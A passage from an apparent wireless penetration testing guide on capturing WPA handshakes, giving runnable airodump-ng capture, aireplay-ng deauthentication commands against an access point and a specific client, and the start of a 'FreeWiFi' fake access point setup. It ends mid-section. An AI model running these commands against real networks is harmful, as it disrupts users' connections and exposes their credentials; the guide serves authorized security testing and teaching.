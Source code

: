 
## ⚡ Handshake Capture Process

=== "Passive Capture"

    ### **Method 1: Passive Capture**
    ```bash
    # Start capture
    sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w handshake wlan0mon

    # Wait for client to connect naturally
    # Monitor for WPA handshake in top-right corner
    ```

    !!! info "Passive Method"
        - **Pros**: No interference, stealthy
        - **Cons**: Requires patience, depends on client activity
        - **Best for**: High-traffic networks with regular connections

=== "Active Deauth"

    ### **Method 2: Active Deauth Attack**
    ```bash
    # Terminal 1: Capture handshake
    sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w handshake wlan0mon

    # Terminal 2: Deauth attack
    sudo aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF wlan0mon

    # Terminal 3: Target specific client
    sudo aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF -c CLIENT:MAC:ADDR wlan0mon
    ```

    !!! warning "Active Method"
        - **Pros**: Faster results, more reliable
        - **Cons**: More detectable, may cause network disruption
        - **Best for**: Testing environments, authorized assessments

=== "Fake AP Attack"

    ### **Method 3: Fake AP Attack**
    ```bash
    # Create fake AP
    sudo airbase-ng -a AA:BB:CC:DD:EE:FF --essid "FreeWiFi" wlan0mon
